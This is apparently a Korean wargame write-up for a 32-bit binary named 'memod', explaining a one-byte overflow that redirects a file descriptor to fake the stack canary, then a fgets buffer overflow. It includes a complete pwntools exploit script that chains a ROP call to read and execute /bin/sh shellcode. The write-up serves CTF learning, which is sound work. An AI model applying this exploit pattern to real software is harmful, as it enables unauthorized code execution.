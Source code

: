 ```yaml
---
layout: post
title: "memod"
comments : true
category : War Game
---
```


# 문제
***

memod 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

file 명령어 결과는 다음과 같다.
```
memod: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=0609d9d923e140f16f00fe4df883f8250b195222, not stripped
```

바이너리 코드
```
...
char s; // [ebp-128h]
char file[32]; // [ebp-28h]
int fd; // [ebp-8h]
int s2;
...
for(i=0;i<=32;++i)
{
    s=getchar();
    if((unsigned int)(s-48) > 9)
    {
        file[i]=0;
        break;
    }
    file[i]=s;
}
if(!file[0])
{
    ...
    exit(0);
}
read(fd,&canary_backup,4u);
s2=canary_backup;
...
fgets(&s,512,stdin);
...
if(memcmp(&canary_backup,&s2,4u))
{
    ...
    exit(-1);
}
return 0
```

for문에서 1byte overflow가 발생한다. 이를 통해서 fd에 1byte 값을 덮어쓸 수 있기 때문에 fd를 내가 원하는 값으로 변경할 수 있다. (파일 디스크립터는 사용하지 않는 가장 작은 파일 디스크립터 번호를 할당받는다. 0,1,2는 stdin, stdout, stderr) 


fgets 함수에서 buffer overflow가 발생한다. 

그리고 NX가 diabled되어 있기 때문에 bss 영역에서 shellcode를 실행할 수 있다.

## exploit 방법
1. 1byte overflow를 통해서 fd를 0으로 바꾼다. 이를 통해서 canary값을 내 입력값으로 바꿀 수 있다.
2. canary값을 알고 있기 때문에 fgets 함수에서 발생하는 buffer overflow로 eip를 컨트롤 할 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round2/memod/memod"

p=process(file_path)

read_plt=0x80484f0
pppr=0x08048836
bss_sec=0x8049b90

shell = asm(shellcraft.sh())

pay="7"*32+"A"  # 1byte bof -> fd = 0

p.send(pay)
time.sleep(0.5)
p.send("AAAA") # canary = 0x41414141

p.recvuntil(";p\n")

pay2="A"*300
pay2+=p32(read_plt)
pay2+=p32(pppr)
pay2+=p32(0)
pay2+=p32(bss_sec)
pay2+=p32(0x100)
pay2+=p32(bss_sec)

p.sendline(pay2)
time.sleep(0.5)
p.send(shell)

p.interactive()
```

# 알게 된 것
***
1. fgets / gets / scanf/ getchar 등의 함수는 입력 버퍼를 가지고 있다. 따라서 입력 버퍼에 저장되어 있는 입력값들을 입력으로 받는다. 하지만 read(0,&buf,0x100) 는 입력 버퍼에서 입력값을 읽어오는 것이 아니라 해당 함수가 호출된 이후에 들어오는 입력을 받는다. 

=> fgets와 같은 함수로 입력을 받은 뒤 바로 read함수를 호출하는 경우 send 사이에 time.sleep()을 넣어줘야 한다.

2. fgets, scanf, gets는 엔터까지 입력을 받기 때문에 .sendline으로 입력을 넣어줘야 한다.

   getchar, read 함수는 .send로 입력을 넣어준다.
